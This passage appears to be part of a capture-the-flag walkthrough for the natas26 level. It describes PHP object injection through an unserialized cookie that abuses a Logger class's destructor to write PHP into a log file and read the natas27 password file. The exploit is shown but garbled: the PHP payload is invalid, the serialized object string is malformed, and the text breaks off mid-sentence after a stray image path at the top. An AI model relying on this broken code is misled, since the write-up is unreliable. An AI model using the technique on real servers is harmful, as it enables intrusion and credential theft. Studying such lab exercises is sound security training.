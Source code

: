 4. When `serialize()` is called on this, an object is formed that has these properties.

5. There are a couple of magic methods: `__construct` and `__destruct` which are like initializer and destructor of the class.

In the logger class here,


```php
    class Logger{
        private $logFile;
        private $initMsg;
        private $exitMsg;
      
        function __construct($file){
            // initialise variables
            $this->initMsg="#--session started--#\n";
            $this->exitMsg="#--session end--#\n";
            $this->logFile = "/tmp/natas26_" . $file . ".log";
      
            // write initial message
            $fd=fopen($this->logFile,"a+");
            fwrite($fd,$initMsg);
            fclose($fd);
        }
        
        .
        .
        .
        .
        .


        function __destruct(){
            // write exit message
            $fd=fopen($this->logFile,"a+");
            fwrite($fd,$this->exitMsg);
            fclose($fd);
        }                       
    }
```

At the start, the `__construct()` creates the object. At the end, the `__destruct()` flushes the log based on the object's properties: `logFile` and `exitMsg`.

Craft a payload: `payload = <?php cat /etc/natas_webpass/natas27; ?>` such that:

```s
0:6:"Logger":2:{s::"logFile";s:7:"log.php";s:7:"exitMsg";s:...:payload}
```

Send this as `base64` encoding and make sure 

```s
$drawing=unserialize(base64_decode($_COOKIE["drawing"]));
``` 
